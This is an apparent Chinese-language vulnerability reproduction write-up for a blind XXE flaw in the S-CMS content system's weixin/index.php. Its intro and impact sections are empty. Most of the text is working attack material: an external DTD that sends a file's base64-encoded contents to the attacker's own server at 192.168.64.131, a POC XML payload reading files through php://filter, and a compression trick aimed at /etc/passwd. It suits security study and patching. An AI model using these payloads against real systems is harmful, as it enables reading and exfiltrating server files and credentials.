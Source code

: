 S-CMS xxe漏洞
=============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

全局搜索`simplexml`，在`weixin/index.php`发现漏洞

![](./.resource/S-CMSxxe漏洞/media/rId25.jpg)

非常标准的XXE，没有任何过滤手段，往下并未发现有输出XML解析结果的地方，此处应用无回显的XXE攻击手段

### 漏洞复现

首先在自己的服务器（192.168.64.131）上创建一个供靶机外部引用的dtd文件（test.dtd）

    <!ENTITY % all 
        "<!ENTITY &#x25; send SYSTEM 'http://192.168.64.131/?%file;'>"
    >
    %all;

发送POC

    <?xml version="1.0"?>
    <!DOCTYPE ANY [
        <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/phpStudy/PHPTutorial/WWW/robots.txt">
        <!ENTITY % dtd SYSTEM "http://192.168.64.131/test.dtd">
    %dtd;
    %send;
    ]>

![](./.resource/S-CMSxxe漏洞/media/rId27.jpg)

然后在Apache日志中查看到结果：

![](./.resource/S-CMSxxe漏洞/media/rId28.jpg)

在这里发现一个问题，查看其它php文件的内容会发生`Detected an entity reference loop`错误，查询资料发现libxml解析器默认限制外部实体长度为2k，无法突破，只能寻找压缩解决方案（但效果不明显）

    压缩：echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd");
    解压：echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=/tmp/1");

参考链接
--------

> http://pines404.online/2019/10/31/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/S-CMS%E5%AE%A1%E8%AE%A1%E5%A4%8D%E7%8E%B0/
